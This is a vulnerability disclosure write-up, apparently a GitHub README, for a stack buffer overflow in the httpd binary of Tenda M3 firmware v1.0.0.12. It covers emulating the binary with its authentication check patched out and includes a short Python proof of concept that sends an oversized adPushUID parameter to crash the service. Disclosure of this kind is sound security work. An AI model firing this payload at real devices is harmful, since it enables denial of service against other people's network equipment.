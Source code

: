# Tenda M3 contains Stack Buffer Overflow Vulnerability

## overview

- type: stack buffer overflow vulnerability

- supplier: Tenda https://www.tenda.com 

- product: TendaM3 https://www.tenda.com.cn/product/M3.html

- firmware download:   https://www.tenda.com.cn/download/detail-3133.html

- affect version: TendaM3 v1.0.0.12(4856)

## Description

### 1. Vulnerability Details

the `httpd` in directory `/bin` has a buffer overflow. The vunlerability is in fucntion `formDelPushedAd` 

![image-20220819154414020](readme.assets/image-20220819154414020.png)

In this function, it copies POST parameter `adPushUID` to stack buffer `v6`

If `s` is too long, it will causes dos(deny of service)

### 2. Recurring loopholes and POC

use qemu-arm-static to run the `httpd`, we need to patch it before run. 

- in `main` function, The `ConnectCfm` function didn’t work properly, so I patched it to `NOP` 
- The `R7WebsSecurityHandler` function is used for permission control, and I've modified it to access URLs that can only be accessed after login

poc of DOS(deny of service)

```python
import requests

data = {
    "adPushUID": "a"*0x2000
}
cookies = {
    "user": "admin"
}
res = requests.post("http://127.0.0.1/goform/delPushedAd", data=data, cookies=cookies)
print(res.content)
```

![image-20220819154611001](readme.assets/image-20220819154611001.png)
